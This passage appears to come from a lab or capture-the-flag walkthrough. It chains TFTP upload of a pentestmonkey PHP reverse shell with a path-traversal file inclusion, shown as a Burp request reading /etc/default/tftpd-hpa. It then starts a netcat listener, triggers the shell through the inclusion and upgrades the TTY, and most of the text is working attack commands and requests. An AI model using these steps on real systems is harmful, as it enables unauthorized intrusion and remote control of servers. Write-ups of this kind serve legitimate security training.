 Upload your [pentesmonkey shell](pentesmonkey.md) with:

```tftp
put pentesmonkey.php
```

Where does it get uploaded? Depends. But The default configuration file for tftpd-hpa is /etc/default/tftpd-hpa. The directory is configured there under the parameter `TFTP_DIRECTORY=`. With that information, you can access the directory and from there launch your reverse shell. 

Let's do it. Request in Burpsuite:

```
GET /?file=../../../../../../etc/default/tftpd-hpa HTTP/1.1
Host: 10.129.95.185
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

Response:

```
HTTP/1.1 200 OK
Date: Mon, 08 May 2023 07:27:32 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 125
Connection: close
Content-Type: text/html; charset=UTF-8

# /etc/default/tftpd-hpa

TFTP_USERNAME="tftp"
TFTP_DIRECTORY="/var/lib/tftpboot"
TFTP_ADDRESS=":69"
TFTP_OPTIONS="-s -l -c"
```

Now, open netcat on one terminal

```bash
nc -lnvp 1234
```

Launch your shell by visiting in the browser:

```
http://10.129.95.185/?file=../../../../../..//var/lib/tftpboot/pentesmonkey.php
```

[Spawn a shell](spawn-a-shell.md).

```bash
SHELL=/bin/bash script -q /dev/null
Ctrl-Z
stty raw -echo
fg
reset
xterm
```
